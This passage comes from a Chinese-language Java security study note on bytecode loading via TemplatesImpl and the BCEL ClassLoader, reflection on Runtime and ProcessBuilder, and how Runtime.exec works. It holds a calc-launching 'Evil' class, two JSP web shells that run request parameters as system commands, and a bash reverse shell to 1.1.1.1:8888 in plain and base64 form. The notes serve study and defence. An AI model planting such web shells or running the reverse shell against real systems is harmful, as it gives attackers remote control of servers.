                                byteArrayOutputStream.write(bytes,0,len);
                            }
                            System.out.println(Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray()));
                    }
                }
                ```

    - 它继承了 `AbstractTranslet` 类，并在构造函数里插入Hello的输出。将其编译成字节码，即可被 `TemplatesImpl` 执行了：

        - ```cmd
            
            Hello TemplatesImpl
            
            Exception in thread "main" java.lang.NullPointerException
            	at com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet.postInitialization(AbstractTranslet.java:372)
            	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:456)
            	at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
            	at cc.HelloDefineClass.main(HelloDefineClass.java:22)
            
            进程已结束,退出代码1
            ```

- **在多个Java反序列化利用链，以及fastjson、jackson的漏洞中，都曾出现过 TemplatesImpl 的身影，这 个系列后文中仍然会再次见到它的身影。**

- 总结：需要调用`TemplatesImpl`的`newTransformer()`函数

### 利用BCEL ClassLoader加载字节码

> https://www.leavesongs.com/PENETRATION/where-is-bcel-classloader.html

#### BCEL从哪里来

- 首先，BCEL究竟是什么？它为什么会出现在JDK中？
- BCEL的全名应该是Apache Commons BCEL，属于Apache Commons项目下的一个子项目。Apache Commons大家应该不陌生，反序列化最著名的利用链就是出自于其另一个子项目——Apache Commons Collections。
- BCEL库提供了一系列用于分析、创建、修改Java Class文件的API。
- 就这个库的功能来看，其使用面远不及同胞兄弟们，但是他比Commons Collections特殊的一点是，**它被包含在了原生的JDK中，位于`com.sun.org.apache.bcel`。**
- JDK会将BCEL放到自己的代码中，主要原因是为了支撑Java XML相关的功能。准确的来说，Java XML功能包含了JAXP规范，而Java中自带的JAXP实现使用了Apache Xerces和Apache Xalan，Apache Xalan又依赖了BCEL，所以BCEL也被放入了标准库中。
- JAXP全名是[Java API for XML Processing](https://zh.wikipedia.org/wiki/JAXP)，他是Java定义的一系列接口，用于处理XML相关的逻辑，包括DOM、SAX、StAX、XSLT等。Apache Xalan实现了其中XSLT相关的部分，其中包括xsltc compiler。
- XSLT（扩展样式表转换语言）是一种为可扩展置标语言提供表达形式而设计的计算机语言，主要用于将XML转换成其他格式的数据。既然是一门动态“语言”，在Java中必然会先被编译成Java，才能够执行。
- XSLTC Compiler就是一个命令行编译器，可以将一个xsl文件编译成一个class文件或jar文件，编译后的class被称为translet，可以在后续用于对XML文件的转换。其实就将XSLT的功能转化成了Java代码，优化执行的速度，如果我们不使用这个命令行编译器进行编译，Java内部也会在运行过程中存在编译的过程。
- 我们尝试用本地的Java（注意需要用Java7或6，使用8将会出现异常）来编译一下hello.xsl：
    - 可见，从`hello.xsl`生成了`hello.class`，反编译这个class即可看到源代码。
    - 我们看反编译过来的源码，这个代码里的`AbstractTranslet`会不会有点眼熟？我们在反序列化时常用的另一个类`com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`，它在`defineClass`中需要的字节码所对应的基类，就是这里的`com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet`。
- 其实Java里很多东西是有因果的，`TemplatesImpl`是对JAXP标准中`javax.xml.transform.Templates`接口的实现，前文说了，XSLT在使用时会先编译成Java字节码，这也就是为什么`TemplatesImpl`会使用`defineClass`的原因。
- 关于XSLT这块的内容比较多，不是本文的重点，我就不细说了。那么这部分内容和BCEL有什么关系呢？
- 你应该也能猜到了，**因为需要“编译”XSL文件，实际上核心是动态生成Java字节码，而BCEL正是一个处理字节码的库，所以Apache Xalan是依赖BCEL的。**

#### BCEL ClassLoader如何使用

- BCEL这个包中有个有趣的类`com.sun.org.apache.bcel.internal.util.ClassLoader`，他是一个ClassLoader，但是他重写了Java内置的`ClassLoader#loadClass()`方法。

- 在`ClassLoader#loadClass()`中，其会判断类名是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行decode。具体算法在这里：

    - ```java
          private static class JavaWriter extends FilterWriter {
            public JavaWriter(Writer out) {
              super(out);
            }
        
            public void write(int b) throws IOException {
              if(isJavaIdentifierPart((char)b) && (b != ESCAPE_CHAR)) {
                out.write(b);
              } else {
                out.write(ESCAPE_CHAR); // Escape character
        
                // Special escape
                if(b >= 0 && b < FREE_CHARS) {
                  out.write(CHAR_MAP[b]);
                } else { // Normal escape
                  char[] tmp = Integer.toHexString(b).toCharArray();
        
                  if(tmp.length == 1) {
                    out.write('0');
                    out.write(tmp[0]);
                  } else {
                    out.write(tmp[0]);
                    out.write(tmp[1]);
                  }
                }
              }
            }
        
            public void write(char[] cbuf, int off, int len) throws IOException {
              for(int i=0; i < len; i++)
                write(cbuf[off + i]);
            }
        
            public void write(String str, int off, int len) throws IOException {
              write(str.toCharArray(), off, len);
            }
          }
      ```

- **基本可以理解为是传统字节码的HEX编码，再将反斜线替换成`$`。默认情况下外层还会加一层GZip压缩。**

#### BCEL 去哪了

- 同样的代码，如果在Java 8u261下执行，则会出现一个异常：

- 查看原因，发现是`com.sun.org.apache.bcel.internal.util.ClassLoader`这个类不在了，查看源码确实没有了。

- 翻一下Java的更新日志，可以发现在8u251的时候，曾有过一个BCEL相关的更新：https://www.oracle.com/java/technologies/javase/8u251-bugfixes.html

- 其实就是把BCEL的依赖升级到6.0了。难道是BCEL 6.0之后这个ClassLoader被删除了吗？

    登录[Apache Commons BCEL官网](https://commons.apache.org/proper/commons-bcel/)，下载了多个6.x的代码，发现ClassLoader都是存在的

- 所以你在官网里下载的BCEL中，ClassLoader是存在的。

- 那么为什么Java内的ClassLoader没有了呢？我觉得只有两个可能性：

    - Java在升级BCEL的时候注意到了前面那个issue，并参考它的修复方式重新将ClassLoader删除了
    - Java将BCEL升级到6.0时用的是一个删除了ClassLoader版本的BCEL（但无法解释为何命名空间不是bcel6）
    - 即便是用到了BCEL6也没用，因为BCEL这个特性仅适用于BCEL 6.0以下，因为从6.0开始`org.apache.bcel.classfile.ConstantUtf8#setBytes`就已经过时了

- 所以，很遗憾，**在Java 8u251以后，BCEL无法使用了**。所以，之后测试fastjson反序列化，记得这里有个坑。

#### BCEL的使用

- 先创建一个恶意类

    - ```java
        public class Evil {
            static {
                try {
                    Runtime.getRuntime().exec("calc.exe");
                } catch (Exception e) {}
            }
        }
        ```

- 然后将Evil生成BCEL形式的字节码。使用这个字节码来新建对象，将会调用到计算器：

    - 我们可以通过BCEL提供的两个类 `Repository` 和 `Utility` 来利用：

        -  Repository 用于将一个Java Class 先转换成原生字节码，当然这里也可以直接使用javac命令来编译java文件生成字节码； 
        - Utility 用于将 **原生的字节码转换成BCEL格式的字节码**：

    - ```java
        import com.sun.org.apache.bcel.internal.classfile.JavaClass;
        import com.sun.org.apache.bcel.internal.classfile.Utility;
        import com.sun.org.apache.bcel.internal.Repository;
        import com.sun.org.apache.bcel.internal.util.ClassLoader;
        public class HelloBCEL {
            public static void main(String []args) throws Exception {
                JavaClass cls = Repository.lookupClass(Evil.class);
                String code = Utility.encode(cls.getBytes(), true);
                
                //添加$$BCEL$$前缀
                code = "$$BCEL$$"+code;
                System.out.println(code);
                
                //加载bcel字节码
                new ClassLoader().loadClass(code).newInstance();
            }
        }
        ```

    - 同样不会类初始化，需要自己显示调用。

- BCEL ClassLoader在Fastjson等漏洞的利用链构造时都有被用到，其实这个类和前面的 TemplatesImpl 都出自于同一个第三方库，Apache Xalan。但在Java 8u251的更新中，这个ClassLoader被移除了，所以之后只能 且用且珍惜了。

## 反射机制

- Java安全可以从反序列化漏洞开始说起，反序列化漏洞⼜可以从反射开始说起
- 反射机制是java的一个非常重要的机制，一些著名的应用框架都使用了此机制，如struts、spring、hibernate、android app界面等等。Java反射在编写漏洞利用代码、代码审计、绕过RASP方法限制等中起到了至关重要的作用。

### 什么是反射？

- 在运行状态中，对于任意一个类，都能够获取到这个类的所有属性和方法，对于任意一个对象，都能够调用它的任意一个方法和属性(包括私有的方法和属性)，这种动态获取信息以及动态调用对象的方法的功能就称为**java语言的反射机制**。也就是说，**虽然我们获取不到该类的源代码，但是通过该类的.class文件能反射(Reflect)出这些信息。**在正常情况下，除了系统类，如果我们想拿到一个类，需要先 import 才能使用。而使用forName就不 需要，这样对于我们的攻击者来说就十分有利，我们可以加载任意类。
- 通俗点讲，通过反射，该类对我们来说是完全透明的，想要获取任何东西都可以。对象可以通过反射获取他的类，类可以通过反射拿到所有 ⽅法（包括私有），拿到的⽅法可以调⽤，总之通过“反射”，我们可以将Java这种静态语⾔附加上动态特性。
- **“⼀段代码，改变其中的变量，将会导致 这段代码产⽣功能性的变化，我称之为动态特性”**
- 想要使用反射机制，就必须要先获取到该类的字节码文件对象 .class，`java.lang.Class`类实例化就表示 .class 字节码文件对象。在文件系统中，class以文件的形式存在。在运行的JVM中，*.class文件被加载到内存中成为一个对象，该对象的类型就是java.lang.Class。
- 通过字节码文件对象，就能够通过该类中的方法获取到我们想要的所有信息(**方法、属性、类名、父类名、实现的所有接口等等**)，每一个类对应着一个字节码文件也就对应着一个Class类型的对象，也就是字节码文件对象。
- **获取.class字节码文件对象：**

  - 获取字节码文件对象的四种方式，有了字节码文件对象才能获得类中所有的信息，我们在使用反射获取信息时，也要考虑使用下面哪种方式获取字节码对象合理，视不同情况而定。

    - Class.forName(）
      ```java
      Class clazz1 = Class.forName("my.Student");
      //通过Class类中的静态方法forName，直接获取到一个类的字节码文件对象，此时该类还是源文件阶段，并没有变为字节码文件。包名为 my，类名为 Student。
      ```
    - 类名.class

      ````java
      Class clazz2 = com.anbai.sec.classloader.Student.class; 
      //如果你已经加载了某个类，只是想获取到它的 java.lang.Class 对象，那么就直接
      拿它的 class 属性即可。这个⽅法其实不属于反射。
      ````
    - classLoader.loadClass()

      ```java
      classLoader.loadClass("com.anbai.sec.classloader.TestHelloWorld");
      ```
    - 对象.getClass()

      ```java
      Runtinme rt = Runtime.getRuntime()
      Class<?> name = rt.getClass()
      ```
  - 在安全研究中，我们使⽤反射的⼀⼤⽬的，就是绕过某些沙盒。⽐如，上下⽂中如果只有Integer类型的 数字，我们如何获取到可以执⾏命令的Runtime类呢？也许可以这样（伪代 码）： `1.getClass().forName("java.lang.Runtime")`
  - 获取数组类型的Class对象需要特殊注意,需要使用Java类型的描述符方式，如下：

    ```JAVA
    Class<?> doubleArray = Class.forName("[D");//相当于double[].class
    Class<?> cStringArray = Class.forName("[[Ljava.lang.String;");// 相当于String[][].class
    ```
  - 获取Runtime类Class对象代码片段：

    ```java
    String className     = "java.lang.Runtime";
    Class  runtimeClass1 = Class.forName(className);
    Class  runtimeClass2 = java.lang.Runtime.class;
    Class  runtimeClass3 = ClassLoader.getSystemClassLoader().loadClass(className);
    ```
  - 通过以上任意一种方式就可以获取java.lang.Runtime类的Class对象了。
- **获取该.class字节码文件对象的详细信息,然后通过java.lang.reflect.*就可以实例化类，然后可以执行该对象的函数了.**

  - 当我们得到一个.class字节码文件对象clazz，我们可以得到以下信息：
  - 和包，类有关的信息 ：

    - | 获取包信息                 | .getPackage()    |
      | -------------------------- | ---------------- |
      | 获得该类的名字，不包含包名 | .getSimpleName() |
      | 获得该类的名字，包含包名   | .getName()       |
  - 和该类各种函数有关的信息：

    - | 获取当前类所有的成员方法，是一个数组，                  每一个值都是一个方法： | Method[]       methods = clazz.getDeclaredMethods()                                                  getMethod和getDeclaredMethod都能够获取到类成员方法，区别在于getMethod只能获取到当前类和父类的所有有权限的方法(如：public)，而getDeclaredMethod能获取到当前类的所有成员方法(不包含父类)。                                                                                                                                                                                                                                                                      |
      | ------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
      | 获取当前类指定的成员方法：                                                     | Method method =  clazz.getDeclaredMethod("方法名");                                                                          Method method = clazz.getDeclaredMethod("方法名",  参数类型如String.class，多个参数用","号隔开);   Java中支持类的重载，我们不能仅通过函数名来确定一个函数。所以，在调用 getMethod 的时候，我们需要 传给他你需要获取的函数的参数类型列表。                                                                                           当 一个方法是私有的时候，我们可以使用method.setAceessible(true)去修改他的权限，是的我们可以访问。 |
      | 获取构造函数的集合                                                             | Constructor[] con=clazz.getConstructors();                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
      | 获取当前类指定参数的构造函数                                                   | Constructor[] con=clazz.getConstructor(参数类型逗号隔开);                                                                     当我们没有访问构造方法权限即改构造函数为私有时候时我们应该调用constructor.setAccessible(true)修改访问权限就可以成功的创建出类实例了                                                                                                                                                                                                                                                                                                  |
      | 获取私有函数(protected和private修饰的)集合                                     | .getDeclaredAnnotations()                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
  - 当得到一个方法m时:

    - | 得到这个方法的名字 | m.getName()                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
      | ------------------ | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
      | 反射调用方法       | method.invoke(方法实例对象, 方法参数值，多个参数值用","隔开);                                                     method.invoke的第一个参数必须是类实例对象，如果调用的是static方法那么第一个参数值可以传null，因为在java中调用静态方法是不需要有类实例的，因为可以直接类名.方法名(参数)的方式调用。                                                                                                                                  method.invoke的第二个参数不是必须的，如果当前调用的方法没有参数，那么第二个参数可以不传，如果有参数那么就必须严格的依次传入对应的参数类型。 |
  - 获得接口：`Class[] interfaces=cls.getInterfaces(); `
  - 获得域（成员变量）：

    - | 获取成员变量列表，包括父类中的变量                                  | java.lang.reflect.Field[] fields=clazz.getFields();                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
      | ------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
      | 获取当前类的所有成员变量，包括public，private，proteced：           | clazz.getDeclaredField(str2);                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
      | 获取当前类指定的成员变量：                                          | Field       field =       clazz.getDeclaredField("变量名");                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |
      | 获取成员变量值：                                                    | Object obj = field.get(类实例对象); 当是调用类变量，类实例对象可以为null。                              这里的Object要写成对应的变量类型                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
      | 修改成员变量值：                                                    | field.set(类实例对象,       修改后的值);       同理，当我们没有修改的成员变量权限时可以使用: field.setAccessible(true)的方式修改为访问成员变量访问权限。                                                                                                                                                                                                                                                                                                                                                                                                                                         |
      | 如果我们需要修改被final关键字修饰的成员变量，那么我们需要先修改方法 | 反射获取Field类的modifiers                                                                                          Field modifiers =       field.getClass().getDeclaredField("modifiers");                          // 设置modifiers修改权限               modifiers.setAccessible(true);                               // 修改成员变量的Field对象的modifiers值               modifiers.setInt(field, field.getModifiers() &       ~Modifier.FINAL);                                                                   //       修改成员变量值               field.set(类实例对象, 修改后的值); |
  - 其他操作：

    - 实例化该类：

      - clazz.newInstance() 如果构造函数不是私有的，可以直接生成。
      - 如果是私有的那么需要得到构造函数,然后设置构造函数权限为可以访问。

        ```java
        constructor=clazz.getConstructor()
        constructor.setAccessible(true);
        Object unsafe1 = (Object) constructor.newInstance();  //Object要换成对应的类的名称
        ```

        - Runtime 类的构造方法就是私有的。
        - 有同学就比较好奇，为什么会有类的构造方法是私有的，难道他不想让用户使用这个类吗？这其实涉及 到很常见的设计模式：“单例模式”。（有时候工厂模式也会写成类似） 比如，对于Web应用来说，数据库连接只需要建立一次，而不是每次用到数据库的时候再新建立一个连 接，此时作为开发者你就可以将数据库连接使用的类的构造函数设置为私有，然后编写一个静态方法来 获取：

          ```java
          public class TrainDB {
              private static TrainDB instance = new TrainDB();
              public static TrainDB getInstance() {
              return instance;
              }
              private TrainDB() {
              // 建立连接的代码...
              }
          }
          ```
        - 这样，只有类初始化的时候会执行一次构造函数，后面只能通过 getInstance 获取这个对象，避免建 立多个数据库连接。
      - 如果该类没有无参构造函数，那么就要传入对应的参数，不然会报错。
      - **在获得对象之后，可以直接按照操作对象的方式对调用函数，也可以使反射去调用函数**
    - 获取类修饰符：`clazz.getModifiers()`
  - **在反射⾥极为重要的⽅法：**

    - 获取类的⽅法： forName
    - 实例化类对象的⽅法： newInstance
    - 获取函数的⽅法： getMethod
    - 执⾏函数的⽅法： invoke
- **通过反射机制来执行字节码对象的函数。**

  - 需要用到 java.lang.reflect.*下的类。
  - 随便写个类，自己测试就行。

### 反射java.lang.Runtime类:

- java.lang.Runtime因为有一个exec方法可以执行本地命令，所以在很多的payload中我们都能看到反射调用Runtime类来执行本地系统命令，通过学习如何反射Runtime类也能让我们理解反射的一些基础用法。
- 不使用反射执行本地命令代码片段：

  ```java
  package test;
  
  import org.apache.commons.io.IOUtils;
  public class Runtimetest {
      public static void main(String[] args) {
          try{
              String s = IOUtils.toString(Runtime.getRuntime().exec("whoami").getInputStream(), "UTF-8");
              System.out.println(s);
          }catch(Exception e){
              System.out.println(e);
          }
      }
  }
  ```

  - 如上可以看到，我们可以使用一行代码完成本地命令执行操作，但是如果使用反射就会比较麻烦了，我们不得不需要间接性的调用Runtime的exec方法。
- 反射Runtime执行本地命令代码片段1：

  ```java
  package test;
  import java.lang.reflect.Constructor;
  import java.lang.reflect.Method;
  import java.io.InputStream;
  import org.apache.commons.io.IOUtils;
  public class Runtime1 {
      public static void main(String[] args) {
          try{
              //获取Runtime类字节码对象
              Class runtimeClass1 = Class.forName("java.lang.Runtime");
              //获取构造方法
              Constructor constructor = runtimeClass1.getDeclaredConstructor();
              constructor.setAccessible(true);
              // 创建Runtime类示例，等价于 Runtime rt = new Runtime();
              //还可以通过getruntime()这个类方法得到对象而不通过构造函数
              Object runtimeinstance = constructor.newInstance();
              //获取Runtime的exec(String cmd)方法
              Method runtimeMethod = runtimeClass1.getMethod("exec",String.class);
              // 调用exec方法，等价于 rt.exec(cmd);
              Process process = (Process)runtimeMethod.invoke(runtimeinstance,"whoami");
              // 获取命令执行结果
              InputStream in = process.getInputStream();
              // 输出命令执行结果
              System.out.println(IOUtils.toString(in,"UTF-8"));
          }catch(Exception e){
              System.out.println(e);
          }
      }
  }
  ```
- 反射调用Runtime实现本地命令执行的流程如下：

  - 反射获取Runtime类字节码对象(Class.forName("java.lang.Runtime"))。有很多种方式可以获得字节码对象。
  - 使用Runtime类的Class对象获取Runtime类的无参数构造方法(getDeclaredConstructor())，因为Runtime的构造方法是private的我们无法直接调用，所以我们需要通过反射去修改方法的访问权限(constructor.setAccessible(true))。也可以直接调用getruntime()方法获取一个对象。
    - runtimeClass1.getDeclaredConstructor和runtimeClass1.getConstructor都可以获取到类构造方法，区别在于后者无法获取到私有方法，所以一般在获取某个类的构造方法时候我们会使用前者去获取构造方法。如果构造方法有一个或多个参数的情况下我们应该在获取构造方法时候传入对应的参数类型数组，如：clazz.getDeclaredConstructor(String.class,     String.class)。
    - 如果我们想获取类的所有构造方法可以使用：clazz.getDeclaredConstructors来获取一个Constructor数组。
    - 获取到Constructor以后我们可以通过constructor.newInstance()来创建类实例,同理如果有参数的情况下我们应该传入对应的参数值，如:constructor.newInstance("admin",   "123456")。当我们没有访问构造方法权限时我们应该调用constructor.setAccessible(true)修改访问权限就可以成功的创建出类实例了
  - 获取Runtime类的exec(String)方法，(runtimeClass1.getMethod("exec", String.class);)。
  - 调用exec(String)方法，(runtimeMethod.invoke(runtimeInstance,     cmd))。

### 反射ProcessBuilder

- 我们常用的另一种执行命令的方式ProcessBuilder，我们使用反射来获取其构造函数，然后调用 start() 来执行命令：
- 在这里调用函数并没有完全使用反射，而是反射得到对象之后，通过对象去调用函数。

  ```java
  package test;
  
  import java.io.IOException;
  import java.lang.reflect.InvocationTargetException;
  import java.util.Arrays;
  import java.util.List;
  
  public class ProcessDemo {
      public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException, IOException {
  
          Class clazz = Class.forName("java.lang.ProcessBuilder");
          ((ProcessBuilder) clazz.getConstructor(List.class).newInstance(Arrays.asList("calc.exe"))).start();
  
      }
  //Arrays.asList(),用于转换成list集合
  }
  
  ```
- ProcessBuilder有两个构造函数：

  ```java
  public ProcessBuilder(List<String> command)
  public ProcessBuilder(String... command)
  ```
- 我上面用到了第一个形式的构造函数，所以我在 getConstructor 的时候传入的是 List.class
- 但是，我们看到，前面这个Payload用到了Java里的强制类型转换，有时候我们利用漏洞的时候（在表 达式上下文中）是没有这种语法的。所以，我们仍需利用反射来完成这一步。
- 其实用的就是前面讲过的知识：

  ```java
  Class clazz = Class.forName("java.lang.ProcessBuilder");
  clazz.getMethod("start").invoke(clazz.getConstructor(List.class).newInstance(
  Arrays.asList("calc.exe")));
  ```

  - 通过 getMethod("start") 获取到start方法，然后 invoke 执行， invoke 的第一个参数就是 ProcessBuilder Object了。
- 那么，如果我们要使用 `public ProcessBuilder(String... command) `这个构造函数，需要怎样用反射执行呢？

  - 这又涉及到Java里的可变长参数（varargs）了。正如其他语言一样，Java也支持可变长参数，就是当你 定义函数的时候不确定参数数量的时候，可以使用 ... 这样的语法来表示“这个函数的参数个数是可变 的”。
  - 对于可变长参数，Java其实在编译的时候会编译成一个数组，也就是说，如下这两种写法在底层是等价 的（也就不能重载）：

    ```java
    public void hello(String[] names) {}
    public void hello(String...names) {}
    ```
  - 也由此，如果我们有一个数组，想传给hello函数，只需直接传即可：

    ```java
    String[] names = {"hello", "world"};
    hello(names);
    ```
  - **那么对于反射来说，如果要获取的目标函数里包含可变长参数，其实我们认为它是数组就行了。**
  - 所以，我们将字符串数组的类 String[].class 传给 getConstructor ，获取 ProcessBuilder 的第二 种构造函数：

    ```java
    Class clazz = Class.forName("java.lang.ProcessBuilder");
    clazz.getConstructor(String[].class)
    ```
  - 在调用 newInstance 的时候，因为这个函数本身接收的是一个可变长参数，我们传给 ProcessBuilder 的也是一个可变长参数，二者叠加为一个二维数组，所以整个Payload如下：

    ```java
    Class clazz = Class.forName("java.lang.ProcessBuilder");
    ((ProcessBuilder)clazz.getConstructor(String[].class).newInstance(new
    String[][]{{"calc.exe"}})).start();
    ```

### 内部类

- 反射调用内部类的时候需要使用 `$`来代替.,如com.anbai.Test类有一个叫做Hello的内部类，那么调用的时候就应该将类名写成：`com.anbai.Test$Hello`。[比如fastjson在 checkAutoType 时候就会 先将 `$ `替换成 `.` ](https://github.com/alibaba/fastjson/blob/fcc9c2a/src/main/java/com/alibaba/fa stjson/parser/ParserConfig.java#L1038)
- Java的普通类 C1 中支持编写内部类 C2 ，而在编译的时候，会生成两个文件： C1.class 和 `C1$C2.class` ，我们可以把他们看作两个无关的类，通过 `Class.forName("C1$C2")` 即可加载这个内部类。其他操作都是一样的。

## java本地命令执行函数

> https://x.hacking8.com/?post=293 java payload在线生成

- java提供了命令执行的函数，黑客通常会RCE利用漏洞或者WebShell来执行系统终端命令控制服务器的目的。

- 在Java中我们通常会使用 `java.lang.Runtime`类的 `exec`方法来执行本地系统命令。

  ```jsp
  <%@ page contentType="text/html;charset=UTF-8" language="java" %>
  <%@ page import="java.io.ByteArrayOutputStream" %>
  <%@ page import="java.io.InputStream" %>
  <%
      InputStream in = Runtime.getRuntime().exec(request.getParameter("liudeha")).getInputStream();
      ByteArrayOutputStream baos = new ByteArrayOutputStream();
      byte[] b = new byte[1024];
      int a = -1;
      while ((a = in.read(b)) != -1) {
      	baos.write(b, 0, a);
  	}
  	out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
  %>
  ```

  - 命令执行效果如下：windows下命令要加 `cmd /c `前缀才能执行命令（默认是执行程序，所以可以传入一个程序的绝对路径），linux不用。无法使用蚁剑连接。
  - 

### **Runtime命令执行调用链**：

>  https://www.freebuf.com/articles/web/308458.html
>
> https://blog.csdn.net/whatday/article/details/107098353
>
> https://blog.spoock.com/2018/11/07/java-reverse-shell/

机制

- java的`Runtime.getRuntime.exec`和`ProcessBuilder.start`，都是直接启动传入参数对应的进程（并不是shell命令，**这就导致了只有参数数组的第一个才会被当作命令，其他参数都是该进程的参数**）。

    - 以curl为例，php的`system`会启动系统shell，然后通过shell来启动curl进程，这个过程中，如果传入的命令带有shell能解析的语法，就会首先解析。

    - 所以，如果只是命令执行的部分参数可控，想在java中通过`;、|、&`等实现命令注入，是行不通的。当然不排除程序本身存在漏洞，只需传入参数即可造成漏洞。

    - 如果命令以字符串形式传入`Runtime.getRuntime.exec`，程序会将传入的命令用空格来拆分。

        ```
        Process process = runtime.exec("ping -c 1 " + ip);
        //这种传入 127.0.0.1 | id，是无法正常执行的
        第一个参数才会被当作命令，其他都是当作命令的参数
        ```

    - 如果执行命令使用的是`ProcessBuilder.start`，那么只能执行无参数的命令。因为`ProcessBuilder`不支持以字符串形式传入命令，只能拆分成List或者数组的形式传入，才能执行。

- 为什么不能直接`Runtime.getRuntime().exec("bash -i >& /dev/tcp/ip/port 0>&1");`

    - 上面说了java并没有给我们一个shell环境。管道符、输入输出重定向都没法用。
    - 例如，`ls > dir_listing`在shell中执行应该将当前目录的列表输出到名为的文件中`dir_listing`。但是在`exec()`函数的上下文中，该命令将被解释为获取`>`和`dir_listing`目录的列表。
    - 其他时候，其中包含空格的参数会被StringTokenizer类破坏，该类将空格分割为命令字符串。那样的东西`ls "My Directory"`会被解释为`ls '"My' 'Directory"'`。

- 我们都知道`bash -c "cmd string"`,就是使用shell去运行`cmd string`字符串

    - 所以我们写payload：`new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/ip/port 0>&1"}`
        - 但是后面参数`"bash -i >& /dev/tcp/ip/port 0>&1"`空格又会被切分。

-  一般常用的是使用base64来编码我们输入的命令

        原始 bash -c "bash -i >& /dev/tcp/1.1.1.1/8888 0>&1"
        
        编码后 bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzg4ODggMD4mMSA=}|{base64,-d}|{bash,-i}
        直接在linux shell下运行失败，猜测-c后面的参数被java做了一些处理

分析

- 在`java.lang.Runtime()`中存在多个重载的`exec()`方法，如下所示:

  - ```java
    public Process exec(String command)
    public Process exec(String command, String[] envp)
    public Process exec(String command, String[] envp, File dir)
    public Process exec(String cmdarray[])
    public Process exec(String[] cmdarray, String[] envp)
    public Process exec(String[] cmdarray, String[] envp, File dir)
    ```

- 除了常见的`exec(String command)`和`exec(String cmdarray[])`，其他`exec()`都增加了`envp`和`File`这些限制。虽然如此，但是最终都是调用相同的方法，本质没有却区别。这些函数存在的意义可以简要地参考[调用java.lang.Runtime.exec的正确姿势](https://blog.csdn.net/timo1160139211/article/details/75006938)

- 分析`exec(String cmdarray[])`和`exec(String command)`:

  - ```java
    // exec(String command) 函数
    public Process exec(String command) throws IOException {
        return exec(command, null, null);
    }
    ...
    public Process exec(String command, String[] envp, File dir)
        throws IOException {
        if (command.length() == 0)
            throw new IllegalArgumentException("Empty command");
     
        StringTokenizer st = new StringTokenizer(command);
        String[] cmdarray = new String[st.countTokens()];
        for (int i = 0; st.hasMoreTokens(); i++)
            cmdarray[i] = st.nextToken();
        return exec(cmdarray, envp, dir);//////////////////////////////////////////////
    }
    ...
        
    // exec(String cmdarray[])
    public Process exec(String cmdarray[]) throws IOException {
        return exec(cmdarray, null, null);/////////////////////////////////////
    }
    ```

  - 可以看到`exec(String cmdarray[])`和`exec(String command)`最终都是调用的`exec(cmdarray, null, null)`。`exec(String command)`通过`StringTokenizer st = new StringTokenizer(command);`将其分割为Token之后作为字符串数组，调用`exec(cmdarray, null, null)`。

  - 分析`StringTokenizer(String str)`:

    - ```java
      public StringTokenizer(String str) {
              this(str, " \t\n\r\f", false);
      }
      ```

    -  这个StringTokenizer类的构造函数，会将命令字符串按照`\t\n\r\f`切分成数组。

  - 分析exec(cmdarray, envp, dir)

    - ```java
      public Process exec(String[] cmdarray, String[] envp, File dir)
          throws IOException {
          return new ProcessBuilder(cmdarray)
              .environment(envp)
              .directory(dir)
              .start();
      }
      
      ```

  - 发现调用了ProcessBuilder类

- Runtime.exec(xxx)调用链如下:

  ```shell
  java.lang.UNIXProcess.<init>(UNIXProcess.java:247)
  java.lang.ProcessImpl.start(ProcessImpl.java:134)
  java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)
  java.lang.Runtime.exec(Runtime.java:620)
  java.lang.Runtime.exec(Runtime.java:450)
  java.lang.Runtime.exec(Runtime.java:347)
  org.apache.jsp.runtime_002dexec2_jsp._jspService(runtime_002dexec2_jsp.java:118)
  ```

- 通过观察整个调用链我们可以清楚的看到exec方法并不是命令执行的最终点，执行逻辑大致是：

  ```
  Runtime.exec(xxx)
  java.lang.ProcessBuilder.start()
  java.lang.ProcessImpl.start()
  new java.lang.UNIXProcess(xxx)
  UNIXProcess构造方法中调用了forkAndExec(xxx) native方法。
  forkAndExec调用操作系统级别fork->exec(*nix)/CreateProcess(Windows)执行命令并返回fork/CreateProcess的PID。
  ```

- 有了以上的调用链分析我们就可以深刻的理解到Java本地命令执行的深入逻辑了，

  - Runtime是调用的ProcessBuilder
  - 而ProcessBuilder是调用的ProcessImpl

- **ProcessBuilder**:

  - 根据上面我们知道，ProcessBuilder传入的参数需要是数组。

  ```jsp
  <%@ page contentType="text/html;charset=UTF-8" language="java" %>
  <%@ page import="java.io.ByteArrayOutputStream" %>
  <%@ page import="java.io.InputStream" %>
  <%@ page import="java.util.Arrays" %>
  <%@ page import="java.util.ArrayList" %>
  <%
      String s = request.getParameter("liudehua");
  
      InputStream in = new ProcessBuilder(s.split(" ")).start().getInputStream();
      ByteArrayOutputStream baos = new ByteArrayOutputStream();
      byte[] b = new byte[1024];
      int a = -1;
  
